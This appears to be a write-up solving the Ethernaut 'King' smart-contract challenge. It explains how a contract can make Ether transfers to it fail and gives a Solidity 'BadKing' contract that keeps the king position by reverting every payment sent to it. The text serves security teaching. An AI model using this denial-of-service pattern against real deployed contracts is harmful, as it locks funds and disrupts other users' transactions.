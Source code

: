 # Day 9 - King

Every smart contract can have a simple Fallback function in order to receive Ethers from other contracts and wallets.
Each time your contract sends Ethers to another contract, you are depending on the other contract’s code to handle the transaction and determine the transaction’s success. **This means your valid transactions can arbitrarily fail.**

As the transaction sender, you are always susceptible to the following cases:

- **Loophole 1:** The receiving contract doesn’t have a payable fallback function, cannot receive Ethers, and will throw an error upon a payable request.

- **Loophole 2:** The receiving contract has a malicious payable fallback function that throws an exception and fails valid transactions.

- **Loophole 3:** The receiving contract has a malicious payable function that consumes a large amount of gas, which fails your transaction or over-consumes your gas limit.

## Solution

When you submit this `King.sol` instance back to level, Ethernaut will call this fallback function to regain Kingship. The key is to guarantee that Ethernaut’s transaction will fail, so you can remain King.

Notice inside this fallback function, there is a `king.transfer()`, which can fail if the current king is a malicious contract and refuses to withdraw.

Make sure to send at least 1 Ether to surpass the current prize

```js
pragma solidity ^0.6.0;
contract BadKing {
    event CallTheKing(bool success);

    // _victim is the contract address
    constructor(address payable _victim) public payable {
        (bool success,) = _victim.call{gas: 1000000, value: 1 ether}("");
        emit CallTheKing(success);
    }

    receive() external payable {
      revert("You failed! I am the king");
    }
}
```

